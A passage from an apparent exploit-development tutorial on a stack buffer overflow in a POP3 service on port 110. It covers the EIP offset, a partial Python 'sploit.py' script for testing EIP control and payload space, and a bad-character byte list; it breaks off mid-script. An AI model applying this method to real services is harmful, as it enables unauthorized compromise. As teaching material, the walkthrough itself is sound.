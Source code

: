The script returns an integer, which is *the number of buffer ("splate") bytes* ***before*** *any data enters the EIP*. This value does not count any protocol-specific bytes, as those were sent before the buffer pattern was sent. In other words, we can place whatever we want in the 32-bit EIP register if we send `protocol string` + `69 splat bytes` + `4 EIP bytes`.

### [2] Test EIP control and assess payload space.

In this step, we'll modify our script to place 4 Bs (`\x42`) in the EIP, followed by 375 Cs (`\x43`) and about 2000 Ds (`\x44`). We do this in order to ensure our offset (splat) is correct and to ensure we have at least 375 bytes of payload space in the stack after the 4 EIP bytes.

```
root@kali:~# vim sploit.py
```

```
#!/usr/bin/python

import socket, sys

#################### gsstyle
from colorama import Fore, Back, Style
colorama.init()

def printinfo(output):
  print Style.DIM + "[*] ",
  for field in output:
    print field,
  print Style.RESET_ALL

def printresult(output):
  print Style.BRIGHT + Fore.BLUE + "[>] ",
  for field in output:
    print field,
  print Style.RESET_ALL

def printalert(output):
  print Style.BRIGHT + Fore.RED + "[!] ",
  for field in output:
    print field,
  print Style.RESET_ALL

#################### Help section
if len(sys.argv) != 2:
  print "Usage: ./sys.argv[0] <ip.addr>"
  print
  print "ARGUMENT        FORMAT  DESCRIPTION"
  print " <ip.addr>       IPv4    IP address of host you want to test."
  print
  sys.exit(0)

#################### Variables
ip = sys.argv[1]   # string argument
port = 110         # int

# Initialize string of UTF hex values \x01 thru \xff for badchar testing:
chars  =     "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"
chars += "\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
chars += "\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f"
chars += "\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
chars += "\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f"
chars += "\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
chars += "\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f"
chars += "\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
chars += "\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
```